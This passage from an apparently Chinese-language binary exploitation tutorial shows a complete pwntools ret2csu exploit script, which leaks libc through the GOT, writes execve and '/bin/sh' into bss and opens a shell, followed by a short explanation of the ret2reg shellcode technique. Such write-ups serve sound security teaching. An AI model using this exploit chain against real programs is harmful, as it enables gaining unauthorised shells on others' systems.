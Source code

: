 ```python
    csu_end_addr = 0x000000000040061A

    def csu(rbx, rbp, r12, r13, r14, r15, last):
        # rbx = 0
        # rbp = 1
        # r12 = write_got(register to function:call qword ptr[r12+rbx*8])
        # r13 = rdx = 8(length)
        # r14 = rsi = read_got(str)
        # r15d = edi = 1(fd)
        payload = 'A'*(0x80+8)
        payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)
        payload += p64(csu_front_addr)
        payload += 'a'*56   # 0x38 = 56, 栈被抬升，需要填充垃圾数据
        payload += p64(last)
        p.send(payload)
        sleep(1)

    p.recvuntil('Hello, World\n')
    # write(1,write_plt,8)
    csu(0, 1, write_got, 8, read_got, 1, start)

    read_addr = u64(p.recv(8))
    libc = LibcSearcher('read',read_addr)
    libc_base = read_addr - libc.dump('read')
    # system_addr = libc_base + libc.dump('system')
    # log.info("system_addr = %#x",read_addr)
    execve_addr = libc_base + libc.dump('execve')
    log.info("execve_addr = %#x",execve_addr)

    # read(0,bss_base,16)
    csu(0, 1, read_got, 16, bss_base, 0, start)
    # p.send(p64(system_addr)+'/bin/sh\x00')
    p.send(p64(execve_addr)+'/bin/sh\x00')

    p.recvuntil('Hello, World\n')

    # system('/bin/sh')
    # execve('bin/sh')
    csu(0, 1, bss_base, 0, 0, bss_base+8, start)

    p.interactive()
```

## ret2reg

原理：

- 查看溢出函返回时哪个寄存值指向溢出缓冲区空间
- 然后反编译二进制，查找 call reg 或者 jmp reg 指令，将 EIP 设置为该指令地址
- reg 所指向的空间上注入 Shellcode (需要确保该空间是可以执行的，但通常都是栈上的)
